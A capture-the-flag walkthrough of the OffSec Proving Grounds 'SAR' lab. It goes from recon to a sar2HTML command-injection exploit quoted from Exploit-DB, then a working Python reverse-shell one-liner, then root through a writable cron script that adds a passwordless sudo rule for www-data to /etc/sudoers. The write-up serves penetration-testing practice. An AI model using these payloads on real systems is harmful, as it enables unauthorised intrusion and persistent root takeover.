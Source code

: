 * * *
  ### Lab: SAR 
  PROVING GROUNDS(OFFSEC)
* * *  

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/97284a17-94cb-4f78-8f88-19a4ad4f679a)

- FFuf's result reveals a robots.txt file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/41e46114-78d0-4ba4-b515-4714e29e30ea)

- Robots.txt reveals a "sar2HTML" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0bc608fb-cc28-4367-8fca-7fd69edf36a0)

- The sar2HTML directory reveals a sar2HTML ver  3.2.1 page on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fb297a18-93de-49ba-a9a7-c6eeac73bde8)

- According to exploitDB, this version of sar2HTML is vulnerable to rce and we can pop a rev shell via that vulnerability.<a href="https://www.exploit-db.com/exploits/47204">Link to the
  details</a>

       # Exploit Title: sar2html Remote Code Execution
       # Date: 01/08/2019
       # Exploit Author: Furkan KAYAPINAR
       # Vendor Homepage:https://github.com/cemtan/sar2html 
       # Software Link: https://sourceforge.net/projects/sar2html/
       # Version: 3.2.1
       # Tested on: Centos 7

      In web application you will see index.php?plot url extension.

      http://<ipaddr>/index.php?plot=;<command-here> will execute 
      the command you entered. After command injection press "select # host" then your command's 
      output will appear bottom side of the scroll screen.
            
- Testing it reveals this

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16367f87-5490-46fd-9383-3668cf8a484d)

### Foothold
- Popping a revshell with python3 code "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'"
  and stabilizing it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/79d334c2-9911-401b-a69d-76220dc499bc)

### Privesc with cronjob running a writable script as root

- View existing crontab with "cat /etc/crontab"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9d1d9bc0-f8b8-4e3c-8a3f-63cdce079faf)

- Checking the status if it is active with "service cron status"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bf0e8c78-bddb-4175-a0ac-77b1468b069f)

- We have write permissions for the script that finally.sh is running

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2a213b1e-188f-4cbf-a88e-25c2add6eb56)

- I got this script from this site to write a command to /etc/sudoers to allow www-data to use sudo without a password.<a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation">Link to script</a>

      #! /usr/bin/env python3
      import os
      import sys
      try:
         print("on it")
         os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
      except:
          print("Didn't work")
          sys.exit()
- We will receive the file via python http.server,delete write.sh and set our malicious write.sh for the cronjob to run and wait for some minutes.

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/90221deb-16e0-411d-b045-22bd1bd10c3d)

- Gain root access with "sudo bash"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3966397a-d9ac-4a05-8262-3b1d020669f6)

- Root access gained
  
 
  
   

